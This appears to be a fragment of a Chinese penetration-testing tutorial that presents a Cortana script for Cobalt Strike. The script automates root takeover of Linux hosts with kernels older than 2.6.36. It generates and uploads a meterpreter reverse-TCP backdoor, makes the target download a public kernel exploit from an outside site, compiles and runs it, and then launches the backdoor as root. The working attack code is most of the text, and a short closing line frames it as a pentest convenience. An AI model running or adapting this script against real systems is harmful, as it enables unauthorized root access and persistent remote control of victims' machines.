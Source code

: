 比如下面是一个自动对2.6.36内核linux自动提权的脚本：

    
    
    # Auto Rooting < 2.6.36 Menu for Cobalt Engine v0.1 
    popup shell {
     if (host_os(session_host($1)) eq "Linux") {
         menu "Auto Rooting" {
               item "Auto Rooting < 2.6.36" {
                   println("Auto Rooting");
                                    # Generate Payload
                                    $r_lport = random_port();
                                    $backdoor = generate("linux/x86/meterpreter/reverse_tcp", lhost(), $r_lport, %(), "elf");
                                    $handle2 = openf(">/tmp/linux_backdoor_$r_lport");
                                    writeb($handle2, $backdoor);
                                    closef($handle2);  
    
                                    shell_upload($1, "/tmp/linux_backdoor_$r_lport", "/tmp/linux_backdoor_$r_lport");
    
                                    # Launch our aux shells
                                    handler("linux/x86/meterpreter/reverse_tcp", $r_lport, %(LHOST => lhost()));
    
                                    # Rooting
                                    s_cmd($1, "wget http://downloads.securityfocus.com/vulnerabilities/exploits/44219.c");
                                  s_cmd($1, "gcc 44219.c -o rootme_1");
                                    s_cmd($1, "chmod +x rootme_1");
                                    s_cmd($1, "chmod 0777 rootme_1");
                                   s_cmd($1, "./rootme_1");
                                    sleep(10 * 1000);
                                    s_cmd($1, "chmod +x /tmp/linux_backdoor_$r_lport");
                                    s_cmd($1, "chmod 0777 /tmp/linux_backdoor_$r_lport");
                                   s_cmd($1, "chown root:root /tmp/linux_backdoor_$r_lport");
                                  s_cmd($1, "/tmp/linux_backdoor_$r_lport");
                                  s_cmd($1, "exit");
    
                                    db_sync();  
               }
           }
       }
    }
    

# 0x08 小结

* * *

使用Cortana脚本可以让我们更加便捷的使用Cobalt strike，并能更加方便的进行自动化攻击，希望对渗透测试中的你有所帮助。
